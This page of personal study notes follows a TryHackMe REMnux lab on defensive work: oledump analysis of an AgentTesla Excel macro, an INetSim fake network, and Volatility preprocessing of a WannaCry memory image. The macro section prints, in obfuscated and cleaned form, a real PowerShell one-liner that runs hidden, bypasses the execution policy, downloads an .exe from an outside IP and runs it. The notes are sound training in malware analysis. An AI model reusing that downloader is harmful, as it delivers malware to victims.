







# Cybersecurity 101 
---
# Defensive Security Tooling: REMnux - Getting Started

Analysing potentially malicious software can be daunting, especially when this is part of an ongoing security incident. This analysis puts much pressure on the analyst. Most of the time, the results must be as accurate as possible, and analysts use different tools, machines, and environments to achieve this.

In this section, we will use the **REMnux VM**.


 <br>

The **REMnux VM** is a specialized Linux distribution designed for malware analysis and reverse engineering. It comes pre-installed with a wide array of tools, including:

- **Volatility**
- **YARA**
- **Wireshark**
- **oledump**
- **INetSim**

REMnux provides a sandbox-like environment ideal for dissecting potentially malicious software safely, without putting your primary system at risk. It's essentially a ready-to-use lab setup, eliminating the need for time-consuming manual installations.

## File Analysis

In this task, we will use `oledump.py` to conduct **static analysis** on a potentially malicious Excel document.

#### What is oledump.py?

`oledump.py` is a Python tool that analyzes **OLE2 files**, also known as Structured Storage or Compound File Binary Format. These formats are used by Microsoft Office documents like Word, Excel, and PowerPoint.

**OLE** (Object Linking and Embedding) is a proprietary Microsoft technology for embedding and linking to documents and other objects. OLE2 files can contain multiple data streams — such as macros, embedded objects, and metadata — making them a common vector for malware.

This tool is useful for:
- Extracting macros and embedded scripts
- Identifying potentially malicious streams
- Conducting forensic analysis


**Navigate to the Task Directory** Using the **REMnux VM** provided in Task 2, open a terminal and navigate to the target directory:`cd /home/ubuntu/Desktop/tasks/agenttesla/`

```bash 
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm 
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```
Based on `oledump.py`'s analysis of the file, it's likely that a **VBA script** is embedded within the document. These scripts are often stored in a component called:

Now, we should be aware of the data stream with the capital letter **M**. This means there is a **Macro**, and you might want to check out this data stream, `'VBA/ThisWorkbook'`.

So, let's check it out! Let's run the command `oledump.py agenttesla.xlsm -s 4`. This command will run the oledump and look into the actual data stream of interest using the parameter `-s 4`,  wherein the `-s` parameter is short for `-select`  and the number four(`4`) as the data stream of interest is in the 4th place(`A4: M 688 'VBA/ThisWorkbook'`)

```bash 
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4
```

The results above are in hex dump format. There might be some familiar words from a trained eye. However, this is still challenging for us, don't you think? So, let's make it more readable and easier to understand.

We will run an additional parameter `--vbadecompress` in addition to the previous command. When we use this parameter, oledump will automatically decompress any compressed VBA macros it finds into a more readable format, making it easier to analyze the contents of the macros.

```bash 
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress
```
This is much better, isn't it?
 Now, we don't need to be able to read the whole script but rather familiarize ourselves with some characters and commands. Our interest here would be the value of **Sqtnew** because if you check the script, there is a Public IP, a PDF, and a .exe inside. We might want to look into this further.

```bash 
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

We will copy the first value of **Sqtnew** and paste it into **CyberChef's** input area. You can open a local copy of CyberChef inside the REMnux VM or go to this link to access the online version. Use whichever works for you. You might want to check my notes about CyberChef to get more familiar with the tool.

Now that we’ve identified the macro content, let’s focus on decoding any obfuscation.

Looking at the VBA script, we can see that the second and third elements of the array `Sqtnew` include **string replacement commands**, specifically:

```vb
Replace(..., "*", "")
Replace(..., "^", "")
```

This suggests that:

- All instances of `*` should be removed
- All instances of `^` should also be removed
- The `""` indicates that the characters are being replaced with **nothing (i.e., an empty string)**

Apply Two Find/Replace Operations: To clean up the obfuscated string, we’ll perform two Find/Replace operations:

- First Operation:
  - **Find**: `*`
  - **Replace**: (leave blank)
  - **Mode**: SIMPLE STRING
- Second Operation:
  - **Find**: `^`
  - **Replace**: (leave blank)
  - **Mode**: SIMPLE STRING

 <br>

Now, this is more readable! However, for our starters, this can be challenging. So, we will tackle the most basic commands here.

```bash 
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
```
### Let’s Break It Down: Understanding the PowerShell Command

We’ve uncovered a **PowerShell command** embedded in the macro. Let’s analyze it step by step:

#### 🪟 `-WindowStyle Hidden`
This parameter controls how the PowerShell window appears during execution.

- `Hidden` means the window will **not be visible** to the user.
- This is a common technique used in **malware** to execute code silently in the background.

#### 🔐 `-ExecutionPolicy Bypass`
PowerShell includes an **execution policy** to prevent unauthorized scripts from running.

- `Bypass` tells PowerShell to **temporarily ignore all policy restrictions**.
- This allows the script to execute **without user prompts or interference**.

#### 🌐 `Invoke-WebRequest`
This cmdlet is used to **download content** from the internet.

- It’s similar to `curl` or `wget` in Linux.
- Commonly abused in malicious scripts to fetch **remote payloads**.

#### 📎 `-Uri`
Specifies the **URL** from which the file should be downloaded.

```powershell
-Uri http://193.203.203.67/rt/Doc-3737122pdf.exe
```

To summarize, when the document `agenttesla.xlsm` is opened, a Macro will run! This Macro contains a VBA script. The script will run and will be running a PowerShell to download a file named `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/`, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (`Doc-3737122pdf.exe`). This is a usual technique used by threat actors to avoid early detection. Pretty nasty, right?!

Kudos to you for figuring it out!

## Fake Network to Aid Analysis

During dynamic analysis, it is essential to observe the behaviour of potentially malicious software—especially its network activities. There are many approaches to this. We can create a whole infrastructure, a virtual environment with different core machines, and more. Alternatively, there is a tool inside our REMnux VM called **INetSim: Internet Services Simulation Suite**!

We will utilize INetSim's features to simulate a real network in this task.

### Virtual Machines

For this task, we will use two (2) machines. The first is our REMnux machine, which is linked to the Machine Access Task. The second VM is the AttackBox. To start the AttackBox, click the blue **Start AttackBox** button at the top of the page. Do note that you can easily switch between boxes by clicking on them. See the highlighted box in the below image.

 <br>

### INetSim

Before we start, we must configure the tool INetSim inside our REMnux VM. Do not worry; this is a simple change of configuration. First, check the IP address assigned to your machine. This can be seen using the command `ifconfig` or simply by checking the IP address after the **ubuntu@** from the terminal. The IP addresses may vary.

```bash 
ubuntu@MACHINE_IP:~$
```

Here, the machine’s IP is `MACHINE_IP`. Take note of this, as we will need it.

Next, we need to change the INetSim configuration by running this command `sudo nano /etc/inetsim/inetsim.conf` and look for the value `#dns_default_ip 0.0.0.0`.

```bash 
ubuntu@MACHINE_IP:~$ sudo nano /etc/inetsim/inetsim.conf
#########################################
# dns_default_ip
#
# Default IP address to return with DNS replies
#
# Syntax: dns_default_ip 
#
# Default: 127.0.0.1
#
#dns_default_ip  0.0.0.0
```

Remove the comment or #, then change the value of dns_default_ip from `0.0.0.0` to the `machine’s IP` address you have identified earlier. In our case, this is MACHINE_IP. Save the file using `CRTL + O` command, press enter and exit using `CTRL + X`.

Confirm that the changes have been successful by checking the value of `dns_default_ip` using this command `cat /etc/inetsim/inetsim.conf | grep dns_default_ip`. See below.

```bash 
ubuntu@MACHINE_IP:~$ cat /etc/inetsim/inetsim.conf | grep dns_default_ip
# dns_default_ip
# Syntax: dns_default_ip 
dns_default_ip	 MACHINE_IP
```

Finally, run the command `sudo inetsim` to start the tool.

```bash 
ubuntu@MACHINE_IP:~$ sudo inetsim
INetSim 1.3.2 (2020-05-19) by Matthias Eckert & Thomas Hungenberg
Using log directory:      /var/log/inetsim/
Using data directory:     /var/lib/inetsim/
Using report directory:   /var/log/inetsim/report/
Using configuration file: /etc/inetsim/inetsim.conf
Parsing configuration file.
Warning: Unknown option '/var/log/inetsim/report/report.104162.txt#start_service' in configuration file '/etc/inetsim/inetsim.conf' line 43
Configuration file parsed successfully.
=== INetSim main process started (PID 4859) ===
Session ID:     4859
Listening on:   MACHINE_IP
Real Date/Time: 2024-09-22 17:38:22
Fake Date/Time: 2024-09-22 17:38:22 (Delta: 0 seconds)
 Forking services...
  * dns_53_tcp_udp - started (PID 4863)
  * http_80_tcp - failed!
  * https_443_tcp - started (PID 4865)
  * ftps_990_tcp - started (PID 4871)
  * pop3_110_tcp - started (PID 4868)
  * smtp_25_tcp - started (PID 4866)
  * ftp_21_tcp - started (PID 4870)
  * pop3s_995_tcp - started (PID 4869)
  * smtps_465_tcp - started (PID 4867)
 done.
Simulation running.
```

After running the command, ensure you see the sentence **"Simulation running"** at the bottom of the result and ignore **the http_80_tcp—failed!** Our fake network is now running!

Let's move on to our AttackBox!

### AttackBox

From this VM, open a browser and go to our REMnux's IP address using the command `https://MACHINE_IP`. This will prompt a Security Risk; ignore it, click **Advance**, then **Accept the Risk and Continue**.

 <br>

Once done, you should be redirected to the INetSim's homepage!

 <br>

One usual malware behaviour is downloading another binary or script. We will try to mimic this behaviour by getting another file from INetsim. We can do this via the CLI or browser, but let's use the CLI to make it more realistic. Use this command: `sudo wget https://MACHINE_IP/second_payload.zip --no-check-certificate`.

```bash 
root@MACHINE_IP:~# sudo wget https://MACHINE_IP/second_payload.zip --no-check-certificate
--2024-09-22 22:18:49--  https://MACHINE_IP/second_payload.zip
Connecting to MACHINE_IP:443... connected.
WARNING: cannot verify MACHINE_IP's certificate, issued by \u2018CN=inetsim.org,OU=Internet Simulation services,O=INetSim\u2019:
  Self-signed certificate encountered.
    WARNING: certificate common name \u2018inetsim.org\u2019 doesn't match requested host name \u2018MACHINE_IP\u2019.
HTTP request sent, awaiting response... 200 OK
Length: 258 [text/html]
Saving to: \u2018second_payload.zip\u2019

second_payload.zip  100%[===================>]     258  --.-KB/s    in 0s      

2024-09-22 22:18:49 (14.5 MB/s) - \u2018second_payload.zip\u2019 saved [258/258]
```

You can try downloading another file as well. For example, try downloading **second_payload.ps1** by using the command:`sudo wget https://MACHINE_IP/second_payload.ps1 --no-check-certificate`.

To verify that the files were downloaded, check your root folder. See the sample below.

 <br>


All of these are fake files! Try to open the second_payload.ps1. When executed, this will direct you to INetSim's homepage.

What we did here is **mimic a malware's behaviour**, wherein it will try to reach out to a server or URL and then **download a secondary file that may contain another malware**.

### Connection Report

Lastly, go back to your REMnux VM and stop INetSim. By default, it will create a report on its captured connections. This is usually saved in **/var/log/inetsim/report/** directory. You should be able to see something like this.

```bash 
Report written to '/var/log/inetsim/report/report.2594.txt' (14 lines)
=== INetSim main process stopped (PID 2594) ===
```
Read the file using this command sudo cat `/var/log/inetsim/report/report.2594.txt`. This may differ from your machine.

```bash 
ubuntu@MACHINE_IP:~$ sudo cat /var/log/inetsim/report/report.2594.txt
=== Report for session '2594' ===

Real start date            : 2024-09-22 21:04:42
Simulated start date       : 2024-09-22 21:04:42
Time difference on startup : none

2024-09-22 21:04:53  First simulated date in log file
2024-09-22 21:04:53  HTTPS connection, method: GET, URL: https://MACHINE_IP/, file name: /var/lib/inetsim/http/fakefiles/sample.html
2024-09-22 21:16:07  HTTPS connection, method: GET, URL: https://MACHINE_IP/test.exe, file name: /var/lib/inetsim/http/fakefiles/sample_gui.exe
2024-09-22 21:18:37  HTTPS connection, method: GET, URL: https://MACHINE_IP/second_payload.ps1, file name: /var/lib/inetsim/http/fakefiles/sample.html
2024-09-22 21:18:49  HTTPS connection, method: GET, URL: https://MACHINE_IP/second_payload.zip, file name: /var/lib/inetsim/http/fakefiles/sample.html
2024-09-22 21:18:49  Last simulated date in log file
===
```
These are the logs when the tool was running. We can see the connections made to the URL, the protocol, and the method it's using. We can also see the fake file that was downloaded.

## Memory Investigation: Evidence Preprocessing


Preprocessing Evidence with Volatility on REMnux One of the most common and essential practices in **Digital Forensics** is the **preprocessing of evidence**. This step prepares raw data for deeper analysis by:

- Extracting useful artefacts
- Structuring the output for easier review
- Automating repetitive tasks

#### 🔧 Using Volatility for Memory Analysis

When analyzing **memory images**, forensic analysts often rely on tools like **Volatility**, which is already pre-installed on the **REMnux VM**.

Volatility allows you to:

- Identify running processes
- Extract network connections
- Recover registry hives
- Find loaded DLLs and injected code
- Detect potential malware

#### 📄 Saving Output

The output from Volatility commands can be saved in formats like:
- `.txt` for readability
- `.json` for structured parsing and automation

Example:

```bash
volatility -f memory.img --profile=Win7SP1x64 pslist > processes.txt
```

This command:
- Analyzes the memory image `memory.img`
- Uses the specified profile (`Win7SP1x64`)
- Runs the `pslist` plugin to list active processes
- Saves the results into `processes.txt`


#### Automating Preprocessing

To streamline this process, you can create and run a script that uses different Volatility parameters and plugins to extract multiple artefacts in one go. This is especially useful in large-scale investigations where time and consistency are critical.

Example (bash script snippet):

```bash 
#!/bin/bash

volatility -f memory.img --profile=Win7SP1x64 pslist > pslist.txt
volatility -f memory.img --profile=Win7SP1x64 netscan > netscan.txt
volatility -f memory.img --profile=Win7SP1x64 malfind > malfind.txt
```

### Preprocessing With Volatility

In this task, we will use the Volatility 3 tool version. However, we won’t go deep into the investigation and analysis part of the result—we could write a whole book about it! Instead, we want you to be familiar with and get a feel for how the tool works. Run the command as instructed and wait for the result to show. Each plugin takes 2-3 minutes to show the output.

Here are some of the parameters or plugins we will use. We will focus on Windows plugins.

- windows.pstree.PsTree
- windows.pslist.PsList
- windows.cmdline.CmdLine
- windows.filescan.FileScan
- windows.dlllist.DllList
- windows.malfind.Malfind
- windows.psscan.PsScan

Let’s get started then!

In your RemnuxVM, run `sudo su`, then navigate to **/home/ubuntu/Desktop/tasks/Wcry_memory_image/** directory, and our file would be **wcry.mem**. We will run each plugin after the command **vol3 -f wcry.mem**.

### PsTree

This plugin lists processes in a tree based on their parent process ID.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ vol3 -f wcry.mem windows.pstree.PsTree
Volatility 3 Framework 2.0.0
Progress:  100.00		PDB scanning finished
```

### PsList

This plugin is used to list all currently active processes in the machine.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ vol3 -f wcry.mem windows.pslist.PsList
Volatility 3 Framework 2.0.0
Progress:  100.00		PDB scanning finished
```

### CmdLine

This plugin is used to list process command line arguments.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ vol3 -f wcry.mem windows.cmdline.CmdLine
Volatility 3 Framework 2.0.0
Progress:  100.00		PDB scanning finished
```
### FileScan

This plugin scans for file objects in a particular Windows memory image. The results have more than 1,400 lines.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ vol3 -f wcry.mem windows.filescan.FileScan
Volatility 3 Framework 2.0.0
Progress:  100.00		PDB scanning finished
```

### DllList

This plugin lists the loaded modules in a particular Windows memory image. Due to a text limitation, this one won't have a View Results icon.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ vol3 -f wcry.mem windows.dlllist.DllList
Volatility 3 Framework 2.0.0
Progress:  100.00		PDB scanning finished
```

### PsScan

This plugin is used to scan for processes present in a particular Windows memory image.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ vol3 -f wcry.mem windows.psscan.PsScan
Volatility 3 Framework 2.0.0
Progress:  100.00		PDB scanning finished
```

### Malfind

This plugin is used to lists process memory ranges that potentially contain injected code. There won't be any View Results icon for this one due to text limitation.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ vol3 -f wcry.mem windows.malfind.Malfind
Volatility 3 Framework 2.0.0
Progress:  100.00		PDB scanning finished
```
For more information regarding other plugins, you may check this [link](https://volatility3.readthedocs.io/en/stable/volatility3.plugins.html)

Now, you have the plugins running individually and seeing the result. What you will do now is process this in bulk. Remember, one of the investigative practices involves preprocessing evidence and saving the results to text files, right? The question is how?

The answer? Do a loop statement! See the command below.

```bash 
Terminal
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; do vol3 -q -f wcry.mem $plugin > wcry.$plugin.txt; done
```

- We created a variable named `$plugin` with values of each volatility plugin
- Then ran vol3 parameters `-q`, which means quiet mode or does not show the progress in the terminal
- And `-f`, which means read from the memory capture.
- The `plugin > wcry.plugin.done`; means run volatility with the plugins and output it to a file with wcry at the beginning of the text, followed by the name of the plugins and with an extension of `.txt`. Repeat until the value of variable $plugin is used.

After running the command, you won't see any output from the terminal; you'll see files within the same directory where you ran the command.

 <br>

### Preprocessing With Strings

Next, we will preprocess the memory image with the Linux strings utility. We will extract the **ASCII**, 16-bit **little-endian**, and 16-bit **big-endian** strings. See the command below.

```bash 
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ strings wcry.mem > wcry.strings.ascii.txt
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ strings -e l  wcry.mem > wcry.strings.unicode_little_endian.txt
root@MACHINE_IP:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ strings -e b  wcry.mem > wcry.strings.unicode_big_endian.txt
```

The strings command extracts printable ASCII text. The `-e l` option tells strings to extract 16-bit little endian strings. The `-e b` option tells strings to extract 16-bit big endian strings. All three string formats can provide useful information about the system under investigation.

You should have the same output below.

 <br>

Now, this is ready for analysis, but remember, our goal here in this task is to preprocess the evidence so that any analyst who will investigate this can expedite searches and analysis.

---
> **Note:** These notes document hands-on learning from the TryHackMe *Cybersecurity 101* path. The exercises cover fundamental cybersecurity topics, including Linux basics, networking concepts, and web technologies. This document is intended for personal learning, revision, and ethical skill development. All screenshots, commands, and actions are for educational purposes only.  
> — Compiled by moh4med404 | Curious Mind | Cybersecurity Enthusiast